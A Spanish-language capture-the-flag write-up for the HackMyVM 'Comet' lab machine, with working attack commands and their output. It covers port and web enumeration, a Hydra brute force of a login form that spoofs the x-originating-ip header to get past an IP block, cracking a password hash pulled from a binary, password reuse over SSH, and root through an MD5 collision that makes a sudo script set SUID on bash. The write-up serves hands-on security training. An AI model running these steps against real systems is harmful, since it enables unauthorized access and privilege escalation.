



Pentesting & Ctf Pl4yer
HackMyVm - Comet
Autor: Cromiphi

Escaneo de puertos
❯ nmap -p- -T5 -v -n 192.168.1.11
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Escaneo de servicios
❯ nmap -sVC -v -p 22,80 192.168.1.11
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
| 3072 dbf946e520816ceec72508ab2251366c (RSA)
| 256 33c09564294723dd864ee6b8073367ad (ECDSA)
|_ 256 beaa6d4243dd7dd40e0d7478c189a136 (ED25519)
80/tcp open http Apache httpd 2.4.54 ((Debian))
|_http-server-header: Apache/2.4.54 (Debian)
| http-methods:
|_ Supported Methods: GET POST OPTIONS HEAD
|_http-title: CyberArray
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
HTTP

En login hay un formulario de acceso que si ingresamos 2 veces las credenciales erróneas nos bloqueará durante unos minutos.

Con gobuster hago una enumeración de extensiones. El archivo ip.txt es el que usa el cortafuegos para generar una lista negra de direcciones ip.
❯ gobuster dir -u 192.168.1.11 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt
/images (Status: 301) [Size: 313] [--> http://192.168.1.11/images/]
/login.php (Status: 200) [Size: 1443]
/ip.txt (Status: 200) [Size: 0]
/js (Status: 301) [Size: 309] [--> http://192.168.1.11/js/]
/server-status (Status: 403) [Size: 277]
Bypass WAF
https://portswigger.net/bappstore/ae2611da3bbc4687953a1f4ba6a4e04c
Atacando el formulario de login con Hydra.
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.11 http-post-form "/login.php:username=^USER^&password=^PASS^:H=x-originating-ip:1.2.3.4:F=Invalid username or password" -V -f -I
[80][http-post-form] host: 192.168.1.11 login: admin password: s********
Una vez conectado veo muchos archivos con la extensión log.
❯ curl -s http://192.168.1.11/logFire/ | html2text
****** Index of /logFire ******
[[ICO]] Name Last_modified Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory -
[[ ]] firewall.log 2023-02-19 16:35 6.8K
[[ ]] firewall.log.1 2023-02-19 16:35 6.8K
[[ ]] firewall.log.2 2023-02-19 16:35 6.8K
[[ ]] firewall.log.3 2023-02-19 16:35 6.9K
[[ ]] firewall.log.4 2023-02-19 16:35 6.8K
[[ ]] firewall.log.5 2023-02-19 16:35 6.7K
[[ ]] firewall_update 2023-02-19 16:35 16K
===========================================================================
Apache/2.4.54 (Debian) Server at 192.168.1.11 Port 80
Me descargo firewall_update y lo lanzo.
❯ ./firewall_update
Enter password: 123456
Incorrect password
Al tratarse de un binario lo abro con strings. He quitado gran parte de la salida de strings y he dejado el código mas importante para que se vea más claro.
❯ strings -n6 firewall_update
SHA256
b8728ab8H
1a3c3391H
f5f63f39H
da72ee89H
f43f9a9fH
429bc8cfH
e858f804H
8eaad2b1H
Enter password:
Firewall successfully updated
Incorrect password
GCC: (Debian 12.2.0-14) 12.2.0
Creo un archivo con las strings encontradas.
echo "b8728ab81a3c3391f5f63f39da72ee89f43f9a9f429bc8cfe858f8048eaad2b1" > hash256
Uso john para romper el hash SHA256.
❯ john hash256 --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
p*********n (?)
Vuelvo a lanzar el binario para intoducir la contraseña encontrada con john.
❯ ./firewall_update
Enter password: p*********n
Firewall successfully updated
La contraseña es válida pero el binario no nos muestra nada mas, así que reutilizo la contraseña para conectarme por ssh. En el archivo firewall.log.37 está el usuario Joe.
❯ ssh joe@192.168.1.11
joe@comet:~$
Elevación de privilegios.
joe@comet:~$ sudo -l
User joe may run the following commands on comet:
(ALL : ALL) NOPASSWD: /bin/bash /home/joe/coll
Archivo coll.
joe@comet:~$ cat coll
#!/bin/bash
exec 2>/dev/null
file1=/home/joe/file1
file2=/home/joe/file2
md5_1=$(md5sum $file1 | awk '{print $1}')
md5_2=$(md5sum $file2 | awk '{print $1}')
if [[ $(head -n 1 $file1) == "HMV" ]] &&
[[ $(head -n 1 $file2) == "HMV" ]] &&
[[ $md5_1 == $md5_2 ]] &&
[[ $(diff -q $file1 $file2) ]]; then
chmod +s /bin/bash
exit 0
else
exit 1
fi
El script verifica si la primera línea de ambos archivos comienza con el texto "HMV" y si los valores de hash MD5 de ambos archivos son iguales y las condiciones se cumplen, se otorga permiso de ejecución con privilegios elevados (s-bit) al intérprete de bash. Para la creación de los archivos descarga esta herramienta.
https://github.com/cr-marcstevens/hashclashDentro del proyecto tenemos que crear una directorio con el nombre cpc_workdir nos movemos al nuevo directorio creado para crear el archivo file1 y luego usamos cpc.sh para crear los archivos.
❯ echo "HMV" > file1
❯ ../scripts/poc_no.sh file1Cuando la herramienta termina crea dos archivos con extensión .bin, los subo a la máquina objetivo y una vez subidos los renombro a file.
joe@comet:~$ mv collision1.bin file1
joe@comet:~$ mv collision2.bin file2
Compruebo con md5sum que tengan el mismo hash y vuelvo a lanzar el script para obtener el root.
joe@comet:~$ md5sum file*
ff161b97b17351ebc3e7ebb3dbe2180d file1
ff161b97b17351ebc3e7ebb3dbe2180d file2
joe@comet:~$ sudo /bin/bash /home/joe/coll
joe@comet:~$ /bin/bash -p
bash-5.1#
bash-5.1# whoami
root
Y aquí termina comet. Especial agradecimientos al sr LordP4 por su ayuda ;)